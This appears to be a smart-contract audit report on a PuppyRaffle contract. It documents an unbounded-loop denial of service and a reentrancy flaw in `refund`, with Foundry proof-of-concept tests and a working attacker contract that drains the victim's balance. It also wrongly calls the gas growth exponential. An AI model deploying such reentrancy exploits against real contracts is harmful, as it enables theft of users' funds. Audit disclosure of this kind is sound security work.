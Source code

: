### [S-#] Potencial Denial Of Service (DoS) Attack when calling `enterRaffle` function due to looping on `players` array searching for duplicates. 

**Description:**
`enterRaffle` function has a `for loop` that iterates over the `players` array. This `players` array is not bounded to a certain size, which means that we can add any number of items to the list. 
The larger this array becomes, the more the gas cost increases for each call to this function, reaching a point where the gas price is so high that it makes it practically impossible to access the service, rendering the protocol useless.
Down in this section is an example of how much to gas price increase as more players are added to the `players` array.

**Impact:** The gas cost for raffle impact will greatly increase as more players enter the raffle, discouraging later users from entering and causing a rush at the start of the raffle to be one of the first entrants in the queue.

An attacker can make the `players` array so big that no one else can enters. And also can enter a series of owned wallet addresses to guarenteeing that some of those addresses will win.  

**Proof of Concept:**
```javascript
    // AUDIT PoC
    function testDoSAttackOnEnterRaffle() public { 
        vm.txGasPrice(1);     
        uint256 playersToAdd = 99;

        // measure initial gas
        address[] memory initialPlayers = new address[](1);
        initialPlayers[0] = address(1);
        uint256 initialGas = gasleft();
        puppyRaffle.enterRaffle{ value: entranceFee }(initialPlayers);
        uint256 initialGasUsed = initialGas - gasleft();
        
        // Perform DoS
        address[] memory DoSPlayers = new address[](playersToAdd);
        for(uint256 i = 0; i<DoSPlayers.length; i++) {
            DoSPlayers[i] = address(i+2);
        }
        puppyRaffle.enterRaffle{ value: entranceFee * playersToAdd }(DoSPlayers);

        // measure final gas 
        address[] memory finalPlayers = new address[](1);
        finalPlayers[0] = address(101);
        uint256 finalInitialGas = gasleft();
        puppyRaffle.enterRaffle{ value: entranceFee }(finalPlayers);
        uint256 PostAttackGasUsed = finalInitialGas - gasleft();

        // asserts
        assert(initialGasUsed<PostAttackGasUsed);

        console.log("initial gas used:", initialGasUsed);
        console.log("post attack gas used:", PostAttackGasUsed);
        console.log("gas used incresed in a factor of aprox.", PostAttackGasUsed/initialGasUsed, " after attack");
    }
```
explanation of the above code snippet:
1. Perform a call to `enterRaffle` with just one player, and capture the gas used in this transacction on the variable `initialGasUsed`. 
2. *Perform the attack* Add a massive number of players to the raffle (in this case 99 players) to increase the size of `players`. 
3. Finally, repeat the step 1 by adding a single user and store the gas used on this transaction on the variable `postAttackGasUsed`. 
4. At the end, an assertion evaluates that gas price on the "postAttack" transaction is bigger than the initial one. And a series of logs shows how much the gas price increase. In this example, it increments in a factor of near 70 times the initial gas price. In other words, register 1 players becomes 70 times more expensive after add 100 players to the raffle. An the growth of gas price is exponential (O(c^n)) related to the length of the `players` array. 

**Recommended Mitigation:**
1. Consider allowing duplicates. Users can make new wallet addresses anyways, so a duplicate check doesn't prevent the same person from entering multiple times, only the same wallet address. Also regardless the users enter the same wallet, they still have to pay for each one of such register. 
2.  Consider using a map to check for duplicates. For example, a map with the user address as key and a bool value where `true` means is already registered. This will decrease the amount of loops needed to check, because you will have to loop only on the `newPlayers` array. 

---
---
---
### [S-#] Reentrancy attack by calling `refund` function allows attacker to stole all contract's funds. 

**Description:**
`refund` function is not following the CEI principle (Checks, Effects, Interactions) because is calling a external contract before modifying the contract state. This open the door to attackers to perform a reentrancy attack by calling the `refund` function from a maliciuous contract with the `receive` function modified to make a recall to the `refund` function and empty all the contract balance. 

**Impact:** An attacker can take almost all the balance that has the contract at the moment that performs the attack. In other words, can easily stole the money of all the other `players` in the protocol. 

**Proof of Concept:**
The next contract is an example of a contract that a maliciuous actor can write to perform a Reentrancy attack to the protocol:  
```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.7.6;
        
contract ReentrancyAttacker {
    address private exploitableAddress;

    constructor(address victimAddress) {
        exploitableAddress = victimAddress;
    }

    function attack() public payable {
        address[] memory players = new address[](1);
        players[0] = address(this);

        exploitableAddress.call{ value: address(this).balance }(abi.encodeWithSignature("enterRaffle(address[])", players));

        (bool success, bytes memory data) = exploitableAddress.call(abi.encodeWithSignature("getActivePlayerIndex(address)", address(this)));
        (uint256 attackerIndex) = abi.decode(data, (uint256)); 

        (bool _success, bytes memory _data) = exploitableAddress.call(abi.encodeWithSignature("refund(uint256)", 10));
    }

    function fundAttacker() public payable {}

    receive() external payable {
        if(address(exploitableAddress).balance >= 1 ether) {
            (bool success, bytes memory data) = exploitableAddress.call(abi.encodeWithSignature("getActivePlayerIndex(address)", address(this)));
            (uint256 attackerIndex) = abi.decode(data, (uint256)); 
            exploitableAddress.call(abi.encodeWithSignature("refund(uint256)", attackerIndex));
        }
    }
}

```
1. When deploy the contract we pass the address of the PuppyRaffle contract (refered from now as `victim`). 
2. We modifify the contract's `receive` function logic to perform a call to the victim's `refund` function. This call will trigger a recursive effect (`refund` calls `receive`, `receive` calls `refund`, and so on) that will cause to `victim` contract to transfer almost all the money to the `ReentrancyAttacker` contract before its inner state is modified to trigger the `if` statements in charge of prevent a user to refund more money that the one payed initially.
3. Finally, we call `attack` function the ignite the explit. 

Here is also a `foundry: forge` test case that you can run to emulate the attack using the `ReentrancyAttacker` contract:
```javascript
    function test_ReentrancyAttackOnRefund() public {
        // setup attacker 
        reentrancyAttacker = new ReentrancyAttacker(address(puppyRaffle));
        reentrancyAttacker.fundAttacker{ value: entranceFee }();

        // register some users to have eth on the victim contract 
        uint256 playersToAdd = 10;
        address[] memory Players = new address[](playersToAdd);
        for(uint256 i = 0; i<Players.length; i++) {
            Players[i] = address(i+1);
        }
        puppyRaffle.enterRaffle{ value: entranceFee * playersToAdd }(Players);

        // perform the attack 
        reentrancyAttacker.attack();
        console.log(address(puppyRaffle).balance);
        console.log(address(reentrancyAttacker).balance);

        assert(address(puppyRaffle).balance==0);
        assert(address(reentrancyAttacker).balance== entranceFee * playersToAdd + entranceFee);
    }
```

**Recommended Mitigation:**
1. Adhere to the Checks-Effects-Interactions (CEI) Pattern (Primary Mitigation). 
```diff
    function refund(uint256 playerIndex) public {
        address playerAddress = players[playerIndex];
        require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
        require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");

        // move the next line at the end of the function, so if any maliciuous "recall" occurs, the state has already being changed and this malicious call will trigger the initial requieres of this function.
-        payable(msg.sender).sendValue(entranceFee);

        players[playerIndex] = address(0);
        emit RaffleRefunded(playerAddress);
+       payable(msg.sender).sendValue(entranceFee);
    }

```
2. Use Reentrancy Guards: The most robust and recommended way is to inherit from OpenZeppelin's ReentrancyGuard contract and use the nonReentrant modifier on the refund function.
